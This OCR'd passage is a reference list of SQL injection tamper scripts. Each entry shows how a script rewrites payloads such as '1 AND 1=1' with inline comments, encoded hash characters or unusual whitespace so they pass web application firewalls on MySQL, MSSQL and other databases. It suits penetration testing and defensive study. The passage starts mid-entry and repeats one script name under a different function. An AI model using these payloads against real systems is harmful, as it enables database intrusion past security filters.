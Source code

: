 ~~~
INSERT ==> I / ** / N / ** / SERT
~~~
## securesphere.py
Function: 1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
Platform: All
example
~~~
1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
~~~
## sp_password.py
Function: Space ==> sp_password
Platform: Mssql
example
~~~
1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password
~~~
## space2comment.py
Function: Space ==> /**/
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT id FROM users ==> SELECT/**/id/**/FROM/**/users
~~~
## space2dash.py
Function: Space==> -nVNaVoPYeva% 0A
Platform:MSSQL、SQLite
example
~~~
1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227
~~~
## space2hash.py
Function: Space ==> %23nVNaVoPYeva%0A
Platform: MySQL 4.0, 5.0
example
~~~
1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227
~~~
## space2morehash.py
Function: Space ==> %23ngNvzqu%0A
Platform: MySQL 5.1.41
example
~~~
1 AND 9227=9227 ==> 1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227
~~~
## space2mssqlblank.py
Function: Space ==> %0E
Platform: Mssql 2000,2005
example
~~~
SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users
~~~
## space2mssqlblank.py
Function: Space ==> %23%0A
Platform: Mssql、Mysql
example
~~~
1 AND 1=1 ==> 1%23%0AAND%23%0A9227=9227
~~~